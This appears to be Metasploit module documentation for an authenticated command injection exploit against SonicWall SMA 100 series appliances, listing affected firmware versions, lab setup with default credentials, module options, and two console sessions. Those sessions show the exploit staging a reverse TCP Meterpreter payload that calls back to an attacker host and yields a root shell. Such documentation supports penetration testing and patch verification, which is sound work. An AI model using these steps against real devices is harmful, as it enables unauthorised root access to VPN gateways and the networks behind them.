 ## Vulnerable Application

### Description

This module exploits an authenticated command injection vulnerability in the SonicWall
SMA 100 series web interface. Exploitation results in command execution as root. The
affected versions are:

* 10.2.1.2-24sv and below
* 10.2.0.8-37sv and below
* 9.0.0.11-31sv and below

### Installation

#### SonicWall SMA 500v 10.2.1.0-sv17 on VMWare Fusion

* Download 10.2.1.0-sv17 from: https://software.sonicwall.com/Firmware/sw_smavm_eng_10.2.1.0_10.2.1_p_17sv_1268045.ova
* From Fusion, import the downloaded ova.
* Start the VM.
* Log in to the command line interface using "admin" and "password".
* Hit "1" for "Setup Wizard".
* Configure the device with an appropriate address, gateway, and netmask (the device doesn't use DHCP).
* Done!

## Verification Steps

* Follow the above instructions to install SMA 500v
* Do: `use exploit/linux/http/sonicwall_cve_2021_20039`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `exploit`
* You should get a Meterpreter session.

## Options

### USERNAME

The username to authenticate to the web server with. The default value is "admin".

### PASSWORD

The password to authenticate to the web server with. The default value is "password".

### PORTALNAME

The name of the SMA portal to authenticate to. The default value is "VirtualOffice".

### SWDOMAIN

The name of the domain to authenticate to. The default is "LocalDomain".

## Scenarios

### SMA 500v 10.2.1.1-19sv. Default creds. Get Meterpreter session.

```
msf6 > use exploit/linux/http/sonicwall_cve_2021_20039
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > check

[*] Version found: 10.2.1.1-19sv
[*] 10.0.0.7:443 - The target appears to be vulnerable. Based on the discovered version.
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version found: 10.2.1.1-19sv
[+] The target appears to be vulnerable. Based on the discovered version.
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Authentication successful
[*] Command Stager progress -   1.42% done (36/2533 bytes)
- truncated -
[*] Command Stager progress -  98.07% done (2484/2533 bytes)
[*] Sending stage (984904 bytes) to 10.0.0.7
[*] Meterpreter session 2 opened (10.0.0.9:4444 -> 10.0.0.7:58293 ) at 2021-11-17 10:56:30 -0800
[*] Command Stager progress -  99.37% done (2517/2533 bytes)
[*] Command Stager progress - 100.00% done (2533/2533 bytes)

meterpreter > getuid
Server username: root
meterpreter > shell
Process 6708 created.
Channel 1 created.
uname -a
Linux sslvpn 3.13.3 #1 SMP Mon Aug 9 11:13:43 GMT 2021 i686 i686 i386 GNU/Linux
id
uid=0(root) gid=99(nobody) groups=0(root),99(nobody)
```

### SMA 500v 9.0.0.10-28sv. Non-default creds. Get Meterpreter session.

```
msf6 > use exploit/linux/http/sonicwall_cve_2021_20039
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > check

[*] Version found: 9.0.0.10-28sv
[*] 10.0.0.6:443 - The target appears to be vulnerable. Based on the discovered version.
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/sonicwall_cve_2021_20039) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version found: 9.0.0.10-28sv
[+] The target appears to be vulnerable. Based on the discovered version.
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Authentication successful
[*] Command Stager progress -   1.42% done (36/2533 bytes)
- Truncated -
[*] Command Stager progress -  98.07% done (2484/2533 bytes)
[*] Sending stage (984904 bytes) to 10.0.0.6
[*] Meterpreter session 1 opened (10.0.0.9:4444 -> 10.0.0.6:38833 ) at 2021-11-17 11:00:29 -0800
[*] Command Stager progress -  99.37% done (2517/2533 bytes)
[*] Command Stager progress - 100.00% done (2533/2533 bytes)

meterpreter > getuid
Server username: root
meterpreter > shell
Process 24220 created.
Channel 1 created.
uname -a
Linux sslvpn 3.1.0 #1 SMP Thu Feb 18 15:44:36 GMT 2021 i686 i686 i386 GNU/Linux
id
uid=0(root) gid=99(nobody) groups=0(root),99(nobody)
```
